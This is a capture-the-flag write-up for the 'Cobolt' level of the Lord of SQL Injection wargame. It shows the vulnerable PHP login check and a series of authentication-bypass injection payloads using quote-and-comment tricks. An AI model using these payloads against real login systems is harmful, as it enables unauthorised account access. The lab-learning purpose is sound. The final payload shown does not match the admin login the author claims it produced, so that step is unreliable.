 ```yaml
---
title: "Lord of SQL Injection: Cobolt"
pubDate: "2023-11-16"
description: "Solution for 'Cobolt'"
tags: ['SQL Injection']
---
```


# {frontmatter.title}

Here is the code

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

At first, I tried using the same answer as [gremlin](answers/1-gremlin.md).

```
id=' or '1'='1&pw=' or '1'='1
```

But it didn't work. I suspect it's because there is a hashing function with the password. I know that I can disable the password checking by commenting it out.

```
id=' or '1'='1' --
```

But it also didn't work. I kinda got stuck and ended up asking ChatGPT. Turns out, you need an extra space after the double quotes for it to be considered a comment.

```
id=' or '1'='1' -- -
```

After that, I got `Hello rubiya. You are not admin :(`. I complete it after adjusting the payload.

```
id=' -- -
```